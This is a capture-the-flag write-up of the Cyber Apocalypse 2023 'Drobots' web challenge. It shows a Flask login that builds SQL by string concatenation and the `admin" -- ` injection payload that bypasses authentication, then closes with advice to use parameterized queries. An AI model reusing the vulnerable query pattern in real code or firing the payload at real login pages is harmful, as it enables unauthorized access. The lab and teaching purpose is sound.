

# [Cyber Apocalypse 2023](index.md) - Web - Drobots

> Pandora's latest mission as part of her reconnaissance training is to infiltrate the Drobots firm that was suspected of engaging in illegal activities. Can you help pandora with this task?

We are provided with a zip file containing the source of a web application, and a spawnable docker container.


The website has a login page, and that's it. Using my browser's developer tools I can see that login requests go to `/api/login` - good to know for later.

Lets look at the source.

In the Docker container's `entrypoint.sh` we can see that a database is initialized.

```sql
CREATE DATABASE drobots;
CREATE TABLE drobots.users (
    id INTEGER PRIMARY KEY AUTO_INCREMENT,
    username varchar(255) NOT NULL UNIQUE,
    password varchar(255) NOT NULL
);
INSERT INTO drobots.users (username, password) VALUES ('admin', '$(genPass)');
CREATE USER 'user'@'localhost' IDENTIFIED BY 'M@k3l@R!d3s$';
GRANT SELECT, INSERT, UPDATE ON drobots.users TO 'user'@'localhost';
FLUSH PRIVILEGES;
```
There's a single user - `admin`, with a random password that we're not going to be able to guess. The user password that is present is for the database server user, not the user we want.

The file `database.py` has the following code:

```py
def login(username, password):
    # We should update our code base and use techniques like parameterization to avoid SQL Injection
    user = query_db(f'SELECT password FROM users WHERE username = "{username}" AND password = "{password}" ', one=True)

    if user:
        token = createJWT(username)
        return token
    else:
        return False
```
So... looks like a SQL injection (that the developers knew was an issue, and even made a comment to come fix it - let that be a lesson that nobody ever fixes code once it's in production, so fix it before it gets that far).

Now to check to see if the `/api/login` route in the app does anything to the username and password that we should be aware of, before those values get passed to the above vulnerable function.

```py
@api.route('/login', methods=['POST'])
def apiLogin():
    if not request.is_json:
        return response('Invalid JSON!'), 400

    data = request.get_json()
    username = data.get('username', '')
    password = data.get('password', '')

    if not username or not password:
        return response('All fields are required!'), 401

    user = login(username, password)

    if user:
        session['auth'] = user
        return response('Success'), 200

    return response('Invalid credentials!'), 403
```
Doesn't look like they are sanitized at all - this code checks to make sure that both the username and password fields exist, and that the `json` payload is valid, but then just passes the username and password straight into the `login()` function.

The SQL query looks looks like this:

```sql
SELECT password FROM users WHERE username = "admin" AND password = "unknownpassword"
```
And so to perform a SQL injection I want it to look like this:

```sql
SELECT password FROM users WHERE username = "admin" --" AND password = "unknownpassword"
```
This changes the query to ignore the password requirement, and should let me in as whatever username I put in the box.
The `--` tells the SQL processor to ignore everything to the end of the line.

If we just put `admin" --` as the username, and anything for the password (the form won't submit without a password), we get no reponse on the page. Looking at the developer tools, it looks like this caused a server error of some sort.

```json
{"error":{"message":["1064","You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'a\"' at line 1"],"type":"ProgrammingError"}}
```
Looking at the request data our browser sent, it looks like this:

```json
{"username":"admin\" --","password":"a"}
```

Oops. So what I've done here makes the SQL query behind the scenes look like this:
```sql
SELECT password FROM users WHERE username = "admin" --" AND password = "a"
```
And the issue is that `--"` isn't a valid comment - it needs a space. So I actually need the query to look like this:

```sql
SELECT password FROM users WHERE username = "admin" -- " AND password = "unknownpassword"
```
So attempt #2 with `admin" -- ` as the username (with a trailing space), and literally anything in the password field.



Looks like we're in, and the flag is visible right on the landing page.

```
HTB{p4r4m3t3r1z4t10n_1s_1mp0rt4nt!!!}
```

## How could they have prevented this
* When programming code to interact with databases, educate yourself on SQL injection attacks and modern methods for building SQL queries (ie: use parameters instead of concatenating a string together).
* If you notice an issue and leave a note in the code to fix it, nobody will ever see that note, and it'll probably never get fixed. Some googling and about 15 minutes probably could have prevented this vulnerability.